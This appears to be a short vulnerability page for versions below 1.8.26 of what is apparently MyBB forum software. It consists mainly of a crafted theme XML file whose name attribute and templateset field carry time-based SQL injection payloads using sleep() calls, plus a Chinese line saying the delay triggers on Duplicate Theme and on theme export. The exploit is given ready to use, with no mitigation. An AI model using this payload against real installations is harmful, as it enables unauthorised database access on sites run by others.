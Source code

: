 <languages  />

Affected Versions
-----------------

    < 1.8.26

Exploit
-------

Import the constructed malicious xml in the backend theme manager

    <?xml version="1.0" encoding="UTF-8"?>
    <theme name="1' and sleep(10) and '" version="1825">
    <properties>
    <templateset>-2' or sleep(0.01) or '</templateset>
    <editortheme><![CDATA[mybb.css]]></editortheme>
    <imgdir><![CDATA[images]]></imgdir>
    <logo><![CDATA[images/logo.png]]></logo>
    <tablespace><![CDATA[5]]></tablespace>
    <borderwidth><![CDATA[0]]></borderwidth>
    <color><![CDATA[]]></color>
    <disporder><![CDATA[a:7:{s:10:"global.css";i:1;s:10:"usercp.css";i:2;s:9:"modcp.css";i:3;s:16:"star_ratings.css";i:4;s:14:"showthread.css";i:5;s:17:"thread_status.css";i:6;s:8:"css3.css";i:7;}]]></disporder>
    </properties>
    <stylesheets>
    </stylesheets>
    <templates>
    </templates>
    </theme>

<div lang="chinese" dir="ltr" class="mw-content-ltr">
點擊Duplicate Theme,抓包，成功延时注入（導出主題也會存在該注入）

</div>
